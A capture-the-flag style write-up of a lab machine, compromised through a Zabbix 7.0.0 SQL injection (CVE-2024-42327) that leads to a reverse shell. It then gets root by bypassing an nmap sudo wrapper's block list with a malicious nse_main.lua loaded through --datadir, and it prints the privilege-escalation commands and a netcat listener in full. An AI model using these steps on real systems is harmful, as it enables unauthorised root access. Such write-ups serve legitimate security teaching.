



Exploitation Summary
Exploitation process: The machine simulated a real-world pentest scenario by providing initial credentials for a Zabbix account (matthew:96qzn0h2e1k3). The target was running Zabbix version 7.0.0, which is vulnerable to CVE-2024-42327, a SQL injection vulnerability in the /api_jsonrpc.php endpoint.
By exploiting this SQL injection, I was able to extract the admin session token and leverage it to achieve remote code execution through Zabbix's command execution functionality. This granted initial access as the zabbix user.
Privilege escalation was achieved by exploiting a sudo misconfiguration that allowed the zabbix user to run nmap with elevated privileges. Although several dangerous nmap options were disabled through a wrapper script, the --datadir option was left unrestricted. By creating a malicious nse_main.lua file in a controlled directory and using --datadir to point nmap to it, I was able to execute arbitrary Lua code as root, spawning a root shell.
Technologies/Exploits: Zabbix 7.0.0 SQL injection (CVE-2024-42327) leading to RCE, nmap privilege escalation via custom NSE script execution, Lua code injection.
Initial Information
As is common in real-life pentests, this machine starts with provided credentials for a Zabbix account:
Username: matthew
Password: 96qzn0h2e1k3Initial Reconnaissance
Starting with an nmap scan to identify open ports and services:

The scan reveals port 80 is running an HTTP service, which hosts a Zabbix instance.
Web Enumeration - Zabbix Dashboard
Navigating to port 80, I find the Zabbix monitoring platform:

I can identify the exact version running by checking the footer and the system information panel: Zabbix 7.0.0. This is a relatively recent version, but checking CVE databases reveals it has several critical vulnerabilities.
Vulnerability Research - CVE-2024-42327
Searching for known vulnerabilities affecting Zabbix 7.0.0, I find multiple security issues listed at CVE Details.
One particularly interesting vulnerability is a SQL injection flaw (CVE-2024-42327) that affects the /api_jsonrpc.php endpoint. I locate a proof-of-concept exploit at Exploit-DB that demonstrates the SQL injection.
From SQL Injection to RCE
Rather than manually exploiting the SQL injection with sqlmap, I search for an exploit that can leverage the SQLi to achieve remote code execution. I find a comprehensive PoC at GitHub.
This exploit works by:
- Exploiting the SQL injection to extract the admin session token from the database
- Using the stolen session token to authenticate to Zabbix as an administrator
- Leveraging Zabbix's built-in command execution functionality to run arbitrary commands
- Executing a reverse shell payload to gain interactive access
Initial Access - Exploiting Zabbix SQLi
First, I set up a netcat listener on port 443 to catch the reverse shell:
sudo nc -lvnp 443Then I execute the exploit against the target:

The exploit successfully extracts the admin session token through the SQL injection, authenticates to Zabbix, and executes a bash reverse shell command. My netcat listener receives the connection, granting me shell access as the zabbix user.
Initial Enumeration
After gaining access, I perform some basic enumeration:
- In
/homeI find the usermatthew, but credential reuse doesn't work with the Zabbix credentials - Running
ss -tulnreveals MySQL is running locally on the machine - In
/etc/zabbixI find Zabbix configuration files, includingzabbix.conf.php, but it's only readable bywww-dataandroot
Interestingly, I have read access to Matthew's home directory and can retrieve the user flag, though there's nothing else of interest there.
Privilege Escalation - Nmap Sudo Misconfiguration
Checking sudo privileges for the zabbix user reveals an interesting configuration:
sudo -lOutput:
Matching Defaults entries for zabbix on unrested:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty
User zabbix may run the following commands on unrested:
(ALL : ALL) NOPASSWD: /usr/bin/nmap *The zabbix user can run nmap with any arguments as root without a password. This is a well-known privilege escalation vector.
Attempted GTFOBins Techniques
Consulting GTFOBins, I find two common methods to escalate privileges with sudo nmap access:
- Using
--interactivemode to spawn a shell - Using
--scriptto execute NSE scripts that spawn shells
However, both methods are blocked:
sudo nmap --interactiveInteractive mode is disabled for security reasons.sudo nmap --script=testScript mode is disabled for security reasons.Investigating the Nmap Wrapper
The error messages don't appear to be native nmap output, which suggests the binary has been modified. Examining /usr/bin/nmap confirms this suspicion:
#!/bin/bash
## Restrictive nmap for Zabbix ##
# List of restricted options and corresponding error messages
declare -A RESTRICTED_OPTIONS=(
["--interactive"]="Interactive mode is disabled for security reasons."
["--script"]="Script mode is disabled for security reasons."
["-oG"]="Scan outputs in Greppable format are disabled for security reasons."
["-iL"]="File input mode is disabled for security reasons."
)
# Check if any restricted options are used
for option in "${!RESTRICTED_OPTIONS[@]}"; do
if [[ "$*" == *"$option"* ]]; then
echo "${RESTRICTED_OPTIONS[$option]}"
exit 1
fi
done
exec /usr/bin/nmap.original "$@"The nmap binary is actually a bash wrapper script that filters out dangerous options before passing arguments to the real nmap binary (/usr/bin/nmap.original).
Finding the Bypass - Custom Data Directory
While several dangerous options are blocked, I research alternative nmap features that might allow code execution. I discover the --datadir option in the nmap documentation:
--datadir <dirname>: Specify custom Nmap data file location
This option allows specifying a custom directory for nmap's data files. By default, nmap stores its scripts in /usr/share/nmap/scripts/ and loads the main NSE engine from /usr/share/nmap/nse_main.lua.
Checking the default nmap data directory structure:
ls -la /usr/share/nmaptotal 9192
drwxr-xr-x 4 root root 4096 Dec 1 2024 .
drwxr-xr-x 126 root root 4096 Dec 3 2024 ..
-rw-r--r-- 1 root root 10556 Jan 12 2023 nmap.dtd
-rw-r--r-- 1 root root 717314 Jan 12 2023 nmap-mac-prefixes
-rw-r--r-- 1 root root 5002931 Jan 12 2023 nmap-os-db
-rw-r--r-- 1 root root 14579 Jan 12 2023 nmap-payloads
-rw-r--r-- 1 root root 6703 Jan 12 2023 nmap-protocols
-rw-r--r-- 1 root root 49647 Jan 12 2023 nmap-rpc
-rw-r--r-- 1 root root 2461461 Jan 12 2023 nmap-service-probes
-rw-r--r-- 1 root root 1000134 Jan 12 2023 nmap-services
-rw-r--r-- 1 root root 31936 Jan 12 2023 nmap.xsl
drwxr-xr-x 3 root root 4096 Dec 1 2024 nselib
-rw-r--r-- 1 root root 48404 Jan 12 2023 nse_main.lua
drwxr-xr-x 2 root root 36864 Dec 1 2024 scriptsThe key file is nse_main.lua, which is the main Lua script that nmap's NSE (Nmap Scripting Engine) executes when running with the -sC option (default scripts).
Exploiting NSE with Custom Lua Code
The attack strategy is to:
- Create a malicious
nse_main.luafile in a writable directory (like/tmp) - Use
--datadirto point nmap to this directory - Run nmap with
-sCto trigger execution of the custom Lua file - The Lua code will spawn a root shell
Creating the malicious Lua script in /tmp:
echo 'os.execute("/bin/bash");' > /tmp/nse_main.luaThis simple Lua script uses the os.execute() function to spawn a bash shell. When nmap runs this as root (via sudo), it will spawn a root shell.
Executing the privilege escalation:
sudo nmap --datadir=/tmp -sC localhostOutput:
Starting Nmap 7.80 ( https://nmap.org )
Warning: File ./nmap-services exists, but Nmap is using /usr/bin/../share/nmap/nmap-services for security and consistency reasons. set NMAPDIR=. to give priority to files in your local directory (may affect the other data files too).
root@unrested:/var/lib/zabbix/xd#The command successfully executes, and I receive a root shell. The warning message can be ignored - it's just nmap informing that it's using some files from the original data directory while using others from /tmp.
Verifying root access:
whoamirootNow I can retrieve the root flag and complete the machine.